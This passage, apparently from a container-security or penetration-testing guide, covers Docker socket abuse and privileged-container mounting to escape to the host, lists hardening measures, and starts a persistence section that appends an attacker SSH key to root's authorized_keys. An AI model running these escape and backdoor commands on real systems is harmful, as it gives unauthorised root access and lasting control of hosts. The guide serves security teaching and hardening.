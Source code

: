 ```bash
ls -la /var/run/docker.sock
```

### 3.3 Exploitation Techniques

#### Docker Socket Abuse

If the attacker has access to `/var/run/docker.sock`, they can spawn a root-level container with access to the host:

```bash
docker run -v /:/host --rm -it alpine chroot /host
```

This allows direct access to the host file system and root environment.

#### Privileged Container Mount

In a container with elevated privileges and access to the block device:

```bash
mkdir /mnt/host
mount /dev/sda1 /mnt/host
chroot /mnt/host
```

This grants root access to the host system from within the container.

### 3.4 Hardening and Mitigation

* **Drop all capabilities** unless explicitly required:

```bash
docker run --cap-drop=ALL --security-opt no-new-privileges ...
```

* **Avoid `--privileged`** containers unless absolutely necessary.
* **Restrict access** to `/var/run/docker.sock`
* **Use seccomp** and AppArmor/SELinux profiles

Example:

```bash
docker run --security-opt seccomp=/path/to/profile.json ...
```

---

## **4. Post-Exploitation: Persistence and Evasion**

### 4.1 Persistence

**SSH Key Injection** (if root access is obtained):

```bash
mkdir -p /root/.ssh
echo "<attacker_public_key>" >> /root/.ssh/authorized_keys
chmod 600 /root/.ssh/authorized_keys
```
